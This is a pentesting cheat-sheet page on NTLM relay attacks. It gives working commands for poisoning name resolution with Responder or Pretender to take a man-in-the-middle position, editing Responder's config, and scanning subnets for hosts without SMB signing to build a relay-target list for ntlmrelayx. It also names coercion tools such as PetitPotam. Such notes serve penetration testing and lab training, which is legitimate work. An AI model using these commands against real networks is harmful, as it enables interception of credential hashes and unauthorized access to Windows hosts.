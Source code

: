 ```yaml
---
description: Responder | MitM | Authenticaton | NTLMv2
---
```


# NTLM Relay

{% hint style="danger" %}
We can abuse a default setting in Windows when the DNS server cannot respond to a DNS request and we use `Responder` to intercept and poison requests and then grant us a Man-In-The-Middle position to perform relay attacks.\
\
Perform relays with ntlmrelayx either by poisoning with Responder or coercing using printerbug, PetitPotam, Coercer or even mssqlclient.py.
{% endhint %}

### <mark style="color:yellow;">Responder</mark>

```bash
# Analyze mode for recon
sudo python3 Responder.py -I ens192 -A

# Poisoning mode
sudo python3 Responder.py -I ens192

# Or using Pretender
./pretender -i ens192 --dry
```

{% hint style="info" %}
Analyze mode is also useful to capture traffic/hashes of protocols like SMB, MSSQL, HTTP, FTP, IMAP, and LDAP\
\
Its possible to turn off SMB or specify IP in the Responder.conf file

```
sed -i "s/SMB = On/SMB = Off/" Responder.conf
cat Responder.conf | grep -i smb

SMB = Off
```
{% endhint %}

#### Check if SMB Signing is disabled

```bash
# Check if SMB signing is disabled
python3 RunFinger.py -i 172.16.117.0/

# With nxc
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```

